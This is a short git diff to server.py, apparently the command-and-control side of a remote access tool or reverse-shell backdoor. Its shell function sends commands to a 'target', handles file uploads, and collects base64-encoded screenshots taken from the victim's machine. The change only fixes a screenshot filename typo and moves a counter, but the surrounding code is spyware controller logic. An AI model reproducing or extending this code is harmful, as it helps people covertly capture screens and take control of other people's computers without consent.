

Take screenshoot - 2

diff --git a/server.py b/server.py
@@ -59,7 +59,7 @@ def shell(_s, _target, _addr):
                 failed = 'Failed to Upload'
                 reliable_send(_target, base64.b64encode(failed))
         elif cmd[:10] == 'screenshot':
-            temp_name = 'screenshoot_' + str(_addr[0]) + '_' + str(count) + '.png'
+            temp_name = 'screenshot_' + str(_addr[0]) + '_' + str(count) + '.png'
             with open(temp_name, 'wb') as sc:
                 png_data = reliable_recv(_target)
                 png_data_decode = base64.b64decode(png_data)
@@ -67,8 +67,8 @@ def shell(_s, _target, _addr):
                     print(png_data_decode)
                 else:
                     sc.write(png_data_decode)
+                    count += 1
                 sc.close()
-            count += 1
         else:
             result = reliable_recv(_target)
             print('------------------\n', result, '------------------\n')
